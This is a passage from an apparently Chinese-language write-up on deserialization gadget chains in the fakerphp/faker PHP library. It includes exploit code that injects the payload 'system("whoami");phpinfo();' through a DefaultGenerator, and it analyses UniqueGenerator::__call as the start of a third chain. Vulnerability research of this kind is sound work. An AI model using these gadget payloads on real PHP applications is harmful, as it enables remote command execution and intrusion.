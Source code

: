 ```
    use Faker\DefaultGenerator;

    class ClassCreator
    {
        private $generator;
        public function __construct()
        {
            $this->generator = new DefaultGenerator('system("whoami");phpinfo();');
        }
    }
}

```

这里执行命令的时候很奇怪,必须要加上phpinfo()才行,不然whoami的结果会被报错覆盖掉![image-20211010145211439](images/10.png)

之前都没有,不过这提醒了自己以后还是先用phpinfo试试能不能命令执行了,当没有回显的时候加上phpinfo说不定有用

# 第三条链子

## 漏洞分析

入口不变,寻找其他的call方法

```
vendor/fakerphp/faker/src/Faker/UniqueGenerator.php
```

```
public function __call($name, $arguments)
{
    if (!isset($this->uniques[$name])) {
        $this->uniques[$name] = [];
    }
    $i = 0;

    do {
        $res = call_user_func_array([$this->generator, $name], $arguments);
        ++$i;

        if ($i > $this->maxRetries) {
            throw new \OverflowException(sprintf('Maximum retries of %d reached without finding a unique value', $this->maxRetries));
        }
    } while (array_key_exists(serialize($res), $this->uniques[$name]));
    $this->uniques[$name][serialize($res)] = null;

    return $res;
}
```

这里看着和第一条链子有些许的相似,但是循环条件不同,不能执行像第一条链子那样用循环条件里面的call_user_func去rce
